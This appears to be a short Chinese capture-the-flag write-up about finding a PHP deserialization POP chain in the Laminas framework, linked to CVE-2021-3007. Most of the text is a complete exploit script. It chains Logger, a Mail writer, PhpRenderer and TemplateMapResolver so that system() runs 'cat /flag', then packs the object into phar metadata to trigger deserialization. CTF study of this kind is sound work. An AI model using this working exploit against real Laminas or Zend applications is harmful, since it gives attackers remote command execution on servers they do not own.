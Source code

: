 那么现在主要就是找pop链，seay扫了一下后发现报告都来自vendor中，查看composer.json后发现

大量的引用了laminas框架，laminas是zend的替代项目

小搜一手发现存在CVE-2021-3007的Zend漏洞同时影响了部分laminas项目

别人的wp都说是已知的链子，为什么我找不到

那就研究一下这条链子吧

```php
<?php

namespace Laminas\View\Resolver{
    class TemplateMapResolver{
        protected $map = ["setBody"=>"system"];
    }
}
namespace Laminas\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        function __construct(){
            $this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
        }
    }
}

namespace Laminas\Log\Writer{
    abstract class AbstractWriter{}

    class Mail extends AbstractWriter{
        protected $eventsToMail = ["cat /flag"];
        protected $subjectPrependText = null;
        protected $mail;
        function __construct(){
            $this->mail = new \Laminas\View\Renderer\PhpRenderer();
        }
    }
}

namespace Laminas\Log{
    class Logger{
        protected $writers;
        function __construct(){
            $this->writers = [new \Laminas\Log\Writer\Mail()];
        }
    }
}

namespace{
    $a = new \Laminas\Log\Logger();
    //echo base64_encode(serialize($a));

    @unlink('test.phar');

    $phar=new Phar('test.phar');
    $phar->startBuffering();
    //设置头部
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    //将自定义的meta-data存入manifest
    $phar->setMetadata($a);
    $phar->addFromString("test.txt",str_repeat('aaa',1000000));
    //$phar->addFromString("test.txt","test");
    //签名自动计算
    $phar->stopBuffering();
}
```